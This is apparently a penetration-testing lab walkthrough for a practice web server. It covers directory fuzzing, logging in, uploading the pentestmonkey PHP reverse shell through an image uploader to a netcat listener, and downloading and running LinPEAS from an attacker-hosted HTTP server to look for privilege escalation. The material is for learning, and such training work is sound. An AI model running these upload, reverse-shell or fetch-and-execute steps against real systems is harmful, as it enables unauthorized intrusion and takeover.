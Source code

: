 ➡️ [ffuf](https://github.com/ffuf/ffuf)

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.128/FUZZ
```

```bash
academy [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
phpmyadmin [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 0ms
		   [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 0ms]
server-status [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 1ms]
```

- Navigate to [http://192.168.31.128/academy](http://192.168.31.128/academy)
  - Use `10201321`:`student` credentials to login

- Check pages source code for CMS versions
- Try to upload a picture - upload successful
  - Check the image URL - e.g. [http://192.168.31.128/academy/studentphoto/peh-course-solo-icon.png](http://192.168.31.128/academy/studentphoto/peh-course-solo-icon.png)
- Try to upload a reverse shell, to abuse the file upload
  - Upload via PHP
  - Use [GitHub - pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) - copy the content of `php-reverse-shell.php` and create a `shell.php` file with that content
  - Set the `$ip` equal to the Kali VM IP

```bash
nc -nvlp 1234
```

- Upload the `shell.php` file using the web image uploader
  - The file is already executed (if not navigate to its webpage)
  - Reverse shell working

![](.gitbook/assets/2024-07-14_11-42-54_613.png)

```bash
whoami
sudo -l # not working
```

#### Privilege Escalation LinPEAS

➡️ [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

```bash
# Kali VM
mkdir ~/tools
cd ~/tools
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh

python3 -m http.server
```

```bash
# Target reverse shell
cd /tmp
wget http://192.168.31.131:8000/linpeas.sh
# the file will be copied to the target machine

# Run LinPEAS
chmod +x linpeas.sh
./linpeas.sh
```
